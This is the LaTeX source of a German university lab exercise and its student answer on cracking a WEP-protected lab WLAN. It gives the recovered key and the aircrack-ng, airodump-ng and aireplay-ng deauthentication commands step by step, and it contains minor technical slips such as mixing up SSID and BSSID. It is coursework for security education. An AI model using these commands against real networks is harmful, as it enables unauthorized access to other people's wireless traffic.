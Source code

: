 \documentclass[12pt,a4paper]{article}
\newenvironment{exercise}
	{\begin{enumerate}[label=\bfseries\alph*).]\bfseries}
{\end{enumerate}}
\newenvironment{answer}{\par\normalfont}{}
\begin{document}
    \section{Aircrack \& Co}
    	\begin{exercise}
    		\item Brechen Sie die im IT-Labor eingerichtete WLAN-Verbindung mit der für Sie vorgesehenen SSID (im Praktikum erfragen) mittels Aircrack unter zu Hilfenahme der Datei Password.txt.
    		Beschreiben Sie kurz die einzelnen Schritte ihrer Vorgehensweise.
    			\begin{answer}
    				Wir haben folgende Schritte durchgeführt und die AP 'ITS-WEP' geknackt. Das Passwort ist 
    				\begin{lstlisting}
ED:98:ED:38:DF:BB:C3:BB:B0:D2:8C:62:B3
    				\end{lstlisting}
    				\begin{enumerate}[label=\alph*.]
    					\item Mit Airmon-ng die Netzwerkkarte zu promiscuous versetzen 
    					\begin{lstlisting}
airmon-ng start wlan0
    					\end{lstlisting}
    					\item WLAN mit WEP identifizieren und Netzwerkverkehr mitschneiden. 
    					\begin{lstlisting}
airodump-ng wlan0mon --ivs -c {CH} --bssid {target_ssid} -w {file/to/save}
						\end{lstlisting}
						\item Die Menge an Netzwerkverkehr(bzw. ARP-Verkehr) kann durch 2 Arten erhöht werden. Entweder durch Abmelden des zulässige Clients oder Versuch einer falschesten Authentifizierung am AP. Wir haben leider keine zulässige Geräte vorhanden, wir müssen auf 2. Weise gehen, also eine Aireplay-attacke durchzufuhren.
						\begin{lstlisting}
aireplay-ng wlan0 --deauth 0 -a {target_mac}
						\end{lstlisting}
						Da normalerweise soll viele Gerate nach einer abmedlung wieder dem AP zu verbinden,
						und damit können wir genug ARP Requests und ACKs sammeln.
						\item Wenn c.a. 1500 Paket gesammelt wurden, können wir schon mit Aircrack-ng das Passwort zu knacken.
						\begin{lstlisting}
aircrack-ng {.ivs file} -b {target_ssid}
						\end{lstlisting}
    				\end{enumerate}
    			\end{answer}
    		\item (Optional) Versuchen Sie, da Sie nun den PSK kennen, die Verkehre mittels eines geeigneten Tools (z.B.Wireshark) aufzuzeichnen und zu entschlüsseln.
    		
    		\item (Optional) Machen Sie sich mit WPS-Pin-Verfahren vertraut. Versuchen Sie die WLAN-Verbindung
    		mittels WPS anzugreifen.
    		\begin{answer}
    			Nicht gemacht.
    		\end{answer}

    		
    	\end{exercise}
    	
\end{document}
